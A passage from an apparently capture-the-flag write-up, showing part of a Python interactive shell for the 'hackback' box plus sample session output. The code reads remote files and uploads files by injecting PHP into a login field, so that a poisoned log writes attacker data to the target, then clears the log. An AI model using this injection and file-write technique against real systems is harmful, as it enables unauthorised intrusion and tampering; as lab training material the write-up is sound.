      49     def do_save(self, args):
     50         '''Save the contents of a file to a file
     51         Spaces in file path allowed
     52         save [relative path on hackback] [path to save to]'''
     53         args = args.split(' ')
     54         out_file = args[-1]
     55         file_path = ' '.join(args[:-1]) or out_file
     56         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=file_path),
     57                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     58         with open(out_file, 'wb') as f:
     59              f.write(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)))
     60 
     61     def do_upload(self, args):
     62         '''Upload a local file to target
     63         Spaces allowed in target path, not local path
     64         upload [local file] [path on target]'''
     65         args = args.split(' ')
     66         to_upload = args[0]
     67         file_path = ' '.join(args[1:])
     68         with open(to_upload, 'rb') as f:
     69             b64 = b64encode(f.read()).decode()
     70         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
     71                      data={'username': f'<?php $f = "{b64}"; file_put_contents("{file_path}", base64_decode($f)); ?>',
     72                            'password': "xxxxxx",
     73                            'submit': ""})
     74         requests.get(self.webadmin_url.format(action='show', dir='', file=''),
     75                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     76         self.clean_log()
     77 
     78 
     79 term = Terminal(proxy={'http': 'http://127.0.0.1:8080'})
     80 try:
     81     term.cmdloop()
     82 except KeyboardInterrupt:
     83     pass



#### Examples

With this shell, I can list files, dirwalk, and write:



    root@kali# ./hackback_filesystem.py 
    hackback> help

    Documented commands (type help <topic>):
    ========================================
    dir  help  save  type  upload

    hackback> help save
    Save the contents of a file to a file
            Spaces in file path allowed
            save [relative path on hackback] [path to save to]
    hackback> dir
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.md
        [3] => webadmin.php
    )
    1
    hackback> type index.md
    <!DOCTYPE.md>